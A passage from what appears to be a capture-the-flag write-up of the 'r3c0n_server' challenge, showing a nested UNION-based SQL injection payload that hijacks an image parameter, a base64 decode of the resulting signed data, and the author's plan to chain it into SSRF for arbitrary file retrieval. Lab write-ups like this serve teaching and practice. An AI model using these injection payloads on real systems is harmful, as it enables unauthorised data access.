 ```sql
-- The string "' UNION SELECT 1,1,1-- -" will act as the "id" of the 'photo' table.
' UNION SELECT "' UNION SELECT 1,1,1-- -",1,1-- -
```

<p align="center">
  <img src="screenshots/r3c0n-server-8.png" style="width:90%; border:0.5px solid black">
</p>

Viola! An image tag has been **successfully** injected!

Decoding the base-64 string in the `data` param of this `/picture` link, we see that we have managed to gain control of the `image` parameter, and a valid `auth` hash has been automatically generated for us:

```bash
$ echo eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzEiLCJhdXRoIjoiY2I4YTJhOGY1ODZhN2NkZjdjNzY4MmMxOTZiMmYyZWQifQ== | base64 -d; echo

{"image":"r3c0n_server_4fdk59\/uploads\/1","auth":"cb8a2a8f586a7cdf7c7682c196b2f2ed"}
```

This is **huge**, as it means we can now **retrieve any file** via [SSRF](https://portswigger.net/web-security/ssrf) (Server Side Request Forgery)!
